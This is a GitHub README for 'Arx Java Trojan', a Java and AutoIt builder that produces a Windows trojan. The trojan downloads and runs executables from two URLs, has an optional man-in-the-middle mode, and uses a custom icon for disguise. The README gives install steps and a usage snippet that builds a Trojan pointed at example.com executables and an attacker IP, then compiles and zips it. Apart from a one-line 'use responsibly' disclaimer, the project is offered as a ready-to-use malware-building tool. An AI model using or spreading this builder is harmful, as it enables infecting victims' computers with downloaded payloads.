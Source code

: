 # Arx Java Trojan

- This project is designed to create a Trojan software that can download and execute files from specified URLs. 
- It is developed in Java and compiled to run in a Windows environment using AutoIt.

## Features

- Ability to download and execute files from two URLs.
- Optional creation of a temporary file for man-in-the-middle (MITM) attacks.
- Icon customization feature to add a specific icon to the compiled file.
- Packaging of the generated file into a ZIP archive.

## Requirements

- Java JDK
- [Wine](https://www.winehq.org/) (to run Windows applications)
- [AutoIt](https://www.autoitscript.com/site/autoit/downloads/) and the `Aut2exe` tool

## Installation

1. **Install Requirements:**
   - Install Java JDK and Wine on your system.
   - Download and install AutoIt, noting the path to `Aut2exe`.

2. **Clone the Project:**
   ```bash
   git clone (https://github.com/archescyber/arx-java-trojan/)

3. **Prepare Necessary Files:**
   Place the appropriate icon files in the icons directory.



# Usage

You can use the Trojan class to create a Trojan. Below is an example:

`
Trojan trojan = new Trojan("http://example.com/file1.exe", "http://example.com/file2.exe", "path/to/icon.ico", "outputFile.exe", "your.ip.address");
trojan.create(true); // Set to true for MITM mode
trojan.compile(); // Compile the AutoIt code
trojan.zip("outputFile.exe"); // Create a ZIP archive
`
# Notes

Ensure that you have permission to download and execute files from the specified URLs.

Use this project responsibly and in compliance with applicable laws and regulations.

# Contribution
I would like to thank my friend Rovaniq for contributing to this project.

Feel free to contribute to the project by submitting issues or pull requests. All contributions are welcome!

For communication, you can send feedback to my Instagram account named **@yusuf.cyw**
